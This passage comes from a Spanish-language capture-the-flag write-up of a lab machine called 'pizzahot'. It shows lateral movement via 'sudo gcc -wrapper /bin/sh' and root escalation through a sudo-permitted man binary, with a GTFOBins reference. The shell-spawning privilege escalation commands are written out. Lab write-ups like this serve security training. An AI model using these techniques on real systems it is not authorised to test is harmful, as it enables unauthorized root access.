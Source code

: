 Probémoslo:
```bash
pizzapiña@pizzahot:~$ sudo -u pizzasinpiña gcc -wrapper /bin/sh,-s .
$ whoami
pizzasinpiña
$ /bin/bash -i
pizzasinpiña@pizzahot:/home/pizzapiña$
```
Excelente, ahora somos el **usuario pizzasinpiña**.

<br>

<h2 id="man">Escalando Privilegios con Binario man para Convertirnos en Usuario Root</h2>

Vamos a revisar si este usuario también tiene algún privilegio:
```bash
pizzasinpiña@pizzahot:~$ sudo -l
Matching Defaults entries for pizzasinpiña on pizzahot:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, use_pty

User pizzasinpiña may run the following commands on pizzahot:
    (root) NOPASSWD: /usr/bin/man
    (ALL) NOPASSWD: /usr/bin/sudo -l
```
Muy bien, podemos utilizar el **binario man** como el **usuario Root**.

También lo podemos buscar en la guía de **GTFOBins**:
* <a href="https://gtfobins.github.io/gtfobins/man/" target="_blank">GFTOBins: binario man</a>

Vamos a utilizar el último comando:

<p align="center">
<img src="/assets/images/THL-writeup-pizzahot/Captura15.png">
</p>

Probémoslo:
```bash
pizzasinpiña@pizzahot:~$ sudo man man
```

Bien, ahora ejecutamos la **Bash**:

<p align="center">
<img src="/assets/images/THL-writeup-pizzahot/Captura16.png">
</p>
